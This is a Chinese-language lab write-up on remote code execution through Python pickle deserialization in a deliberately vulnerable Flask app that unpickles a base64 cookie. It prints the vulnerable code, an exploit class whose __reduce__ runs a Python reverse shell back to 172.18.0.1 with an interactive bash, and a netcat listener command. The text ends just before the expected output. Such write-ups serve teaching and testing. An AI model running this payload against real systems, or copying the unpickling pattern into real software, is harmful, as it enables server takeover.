

# Python Unpickle 反序列化远程代码执行漏洞

Python 的 pickle 模块是一个流行的序列化/反序列化工具，可以将 Python 对象转换为字节流，反之亦然。然而，当使用 pickle 反序列化不受信任的数据时，可能导致任意代码执行。

当应用程序在没有适当验证的情况下使用 pickle 模块反序列化用户可控数据时，就会出现此漏洞。攻击者可以构造恶意序列化对象，在反序列化时在目标系统上执行任意命令。

参考链接：

- http://rickgray.me/2015/09/12/django-command-execution-analysis.html
- https://www.leavesongs.com/PENETRATION/zhangyue-python-web-code-execute.html
- https://docs.python.org/3/library/pickle.html#pickle.loads
- https://intoli.com/blog/dangerous-pickles/

## 环境搭建

执行以下命令启动存在漏洞的 Flask 应用：

```
docker compose up -d
```

环境启动后，可以在浏览器中访问 `http://your-ip:8000`。页面将显示 `Hello {username}!`，其中 username 是从'user' cookie 中获取的。应用程序对此 cookie 执行 base64 解码和反序列化以提取"username"变量。如果没有找到有效的 cookie，则默认为"Guest"。

app.py 中的漏洞代码如下：

```python
@app.route("/")
def index():
    try:
        user = base64.b64decode(request.cookies.get('user'))
        user = pickle.loads(user)
        username = user["username"]
    except:
        username = "Guest"

    return "Hello %s" % username
```

## 漏洞复现

要利用此漏洞，我们需要创建一个恶意的 pickle 对象，该对象在反序列化时将执行任意命令。该利用使用 Python 的 `__reduce__` 方法来指定对象被反序列化时要调用的函数。

提供的利用脚本 (exp.py) 创建了一个恶意 pickle 对象，该对象建立与攻击者机器的反向 shell 连接：

```python
class exp(object):
    def __reduce__(self):
        s = """python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.18.0.1",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'"""
        return (os.system, (s,))
```

要执行此利用，首先在您的机器上设置 netcat 监听器以接收反向 shell：

```
nc -lvp 80
```

然后运行利用脚本，将恶意 cookie 发送到存在漏洞的应用程序：

```
python3 exp.py
```

当服务器反序列化恶意 pickle 对象时，它将执行命令并建立与您机器的反向 shell 连接：


